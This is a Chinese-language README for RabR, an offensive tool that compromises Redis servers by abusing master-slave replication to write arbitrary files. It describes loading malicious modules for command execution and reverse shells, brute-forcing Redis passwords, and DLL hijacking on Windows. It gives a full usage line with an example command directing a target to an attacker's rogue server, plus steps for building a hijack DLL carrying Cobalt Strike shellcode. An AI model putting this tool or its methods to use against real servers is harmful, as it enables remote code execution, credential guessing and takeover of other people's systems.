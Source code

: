 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可执行命令 

本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的redis进行module攻击，对Windows下的Redis进行module攻击和dll劫持攻击。  
- 本工具默认使用的Linux恶意模块：exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。  
- 本工具默认使用的Windows恶意模块：exp.dll，源码来自于：[**RedisModules-ExecuteCommand-for-Windows** ](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows ), 该模块实现了执行命令的功能，你也可以编写自己的模块。  
- 本工具默认使用的用于劫持的恶意dll：dbghelp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **Winx64下的dbghelp.dll**编译生成的，该dll会执行calc，你可以编译自己的dbghelp.dll。
- 本工具有爆破功能，密码字典位于pwd.txt中。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  dbghelp.dll 默认用于劫持Redis的dll
│  exp.dll 默认导入的Windows Redis模块
│  exp.so 默认导入的Linux Redis模块
│  pwd.txt 爆破字典
│  rd.exe 用于保存Redis数据的程序
│  README.md
│  redis-attack.py 攻击主程序
```

## 用法
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-lf LINUXFILE] [-a AUTH] [--brute] [-v]
Example: python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll used to hijack redis, default dbghelp.dll
  -wf2 WINFILE2, --winfile2 WINFILE2
                        Redis Modules(win) to load, default exp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        Redis Modules(linux) to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  --brute               If redis needs to verify the password, perform a brute force attack base in pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210708212712502](phpto/image-20210708212712502.png)

![image-20210708190457889](phpto/image-20210708190457889.png)

![image-20210708213302932](phpto/image-20210708213302932.png)

## 进一步

劫持Windows x64下的dbghelp.dll的具体方法：  

1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标Redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   

```
1、将dllmain.cpp中 shellcode_calc[] 的值替换为cs生成的shellcode 
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);
3、修改活动解决方案为Realease，x64
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值
```
3）编译生成恶意dbghelp.dll，复制到本工具目录下。    
4）使用本工具执行攻击 。  

## 时间线
    2021.07.03 发布v0.5
    2021.07.08 发布v0.6,增加了Windows模块攻击


## 感谢
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR  